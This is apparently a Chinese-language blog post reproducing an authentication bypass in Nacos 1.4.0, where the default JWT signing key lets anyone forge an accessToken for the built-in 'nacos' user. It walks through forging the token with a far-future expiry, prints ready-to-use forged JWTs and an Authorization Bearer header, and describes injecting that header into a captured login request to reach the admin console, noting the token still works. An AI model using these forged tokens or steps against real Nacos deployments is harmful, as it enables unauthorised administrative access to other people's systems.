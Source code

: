 
```


```

  
由于返回的accessToken只是对账号进行加密得到的.  
  
而且nacos加密用户accessToken使用的jwt默认密钥加密，也就是只要知到nacos的用户，任何人都能通过此密钥加密用户得到对应用户的accessToken.  
  
nacos存在默认用户nacos，所以我们可以尝试获取此默认用户的nacos。  
  
漏洞复现  
  
测试版本：nacos1.4.0  
  
1. 生成时间戳比现在时间晚就行，比如现在时间为2024.9.3，则修改为2024.9.4或者更晚的时间  
  
https://tool.lu/timestamp/  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia26lNcnUx5cicXWCSn86eQ7bNaJtNRXIG8rUru43bmNrJ8kNLmeh2rTQ/640?wx_fmt=jpeg&from=appmsg "")  
  
我直接生成到2080了直接用我的就行  
  
3481367106  
  
2. 生成key。  
  
https://jwt.io/  
  
复制默认的key，填写如下所示  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaHzMkMY0wafXEmSaz9Iu2ErmshYpib68xb0wm6MYoydicJh6ibcwfkxicQQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImlhdCI6MTc0NTgzNTYwOH0.gk9tFDRWDozKj-fsLAXSxnpojBklSaOVPNbUneqTSpw  
  
  
{  
"sub": "nacos",  
"iat": 1745835608  
}  
  
{  
"alg": "HS256",  
"typ": "JWT"  
}  
  
  
带上token访问用户列表即可绕过403  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaotYQI2NyQRgLbfLoezYMLZqKjvNUllzhIVrEbV5hW8Xy2F7OGBLKXg/640?wx_fmt=jpeg&from=appmsg "")  
  
**直接登录到后台**  
：  
  
登陆界面输入任意账户密码 ，点击登录。抓包，添加请求头,我这个还能用。  
  
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MzQ4MTM1NzA1NX0.92Mo2gkDFuPnUaD2v63SQl1IWtObfBxDTWgIhqvteM8  
  